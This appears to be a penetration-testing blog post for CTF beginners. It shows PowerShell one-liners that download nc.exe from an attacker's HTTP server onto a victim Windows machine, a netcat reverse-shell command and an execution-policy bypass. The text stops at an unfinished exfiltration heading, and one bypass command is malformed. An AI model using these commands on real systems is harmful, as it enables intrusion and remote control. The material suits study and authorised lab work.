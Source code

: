 ```yaml
---
layout: post
title:  "Powershell For Penetration Testers Downloading And Exfiltrating"
author: nanobyte
date:   2020-08-31
description: PowerShell for Penetration Testing, and how to download files to a victim machine, and exfiltrate data from the victim machine
tags: PowerShell Python
---
```


This next installment in the Powershell For Penetration Testers looks into how an attacker can introduce files to a victim machine through a PowerShell download, as well as how to use PowerShell to upload files rom a victim machine to your attacking box. I recently decided to continue on with this series to help other new comers into the field to learn as I learn. I recently used these skills on a recent Hack The Box machine, which if I remember to, will post the link to the writeup as a practical example.

<h1>Downloading Files with PowerShell</h1>

Using a PowerShell session, an attacker can quickly download files to a victim machine rather quickly. There are hundreds of examples mroe intense then what I will show you, but here are my two methods and go-to's which I attempt whenever I am performing an attack. In the examples to follow, I will assume that I am attempting to download `nc.exe` to the victim machine, which I would then plan to use to call a reverse shell back to my attacking machine. I will assume that the victim machine I am attacking is a Windows based Operating System, and I am using Kali Linux as my attacking box. Luckily, PowerShell is installed on all Windows platforms, including Windows IoT Core (hint for the Hack The Box machine).

Please also assume that my Kali Linux has a HTTP server running (This can be Apache, Python's SimpleHTTPServer, whatever you prefer) and has an IP of 10.10.10.2, where the Windows machine is 10.10.10.1. 

<h2>Invoke-WebRequest</h2>

The first example is a quick one that can easily be remembered, using a PowerShell cmdlet:

{% highlight bash linenos %}
powershell -c "mkdir c:\temp & Invoke-WebRequest -URI http://10.10.10.2/nc.exe -OUTFILE c:\temp\nc.exe"
{% endhighlight %}

This command first calls PowerShell to run a command with the `-c` flag. This is shortened from the `-Command` flag. This also assumes that you are on the machine with a command prompt. Then, the command is actually executed, first making a directory to save our `nc.exe` binary to. The following command then uses the `Invoke-WebRequest` cmdlet to download our file from the web server, and saves it to the `C:\temp` directory.

We could further this command by then calling `& c:\temp\nc.exe -e cmd.exe 10.10.10.1 1337` to connect back to our reverse shell (but that is outside of this article) to further our attack as a one-liner.

<h2>System.Net.WebClient</h2>

However, I frequently find that this is not the preferred method in Hack The Box or other CTF's to download files to victims. This brings us to our next approach, using PowerShell's `System.Net.WebClient`:

{% highlight bash linenos %}
powershell -c "mkdir c:\temp & (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.2/nc.exe','C:\temp\nc.exe')"
{% endhighlight %}

This is similar to the example above, creating the directory before downloading, only using a .NET class to download.

<h2>Remember -ExecutionPolicy Bypasss</h2>

Along with PowerShell, remembe that there are sometimes restrictions placed onto the PowerShell session you may be running. I already have an article describing how to beat these execution policies, found <a href="/2020/05/23/powershell-for-pentesters-beating-restricted-policies.html" target="_blank">here</a>. To make sure that you beat these restricted execution methods, quickly throw a `-exec bypass` before your download command:

{% highlight bash linenos %}
powershell -c "-exec bypass mkdir c:\temp & Invoke-WebRequest -URI http://10.10.10.2/nc.exe -OUTFILE c:\temp\nc.exe"
{% endhighlight %}

<h1>Efiltrating Data<h2>
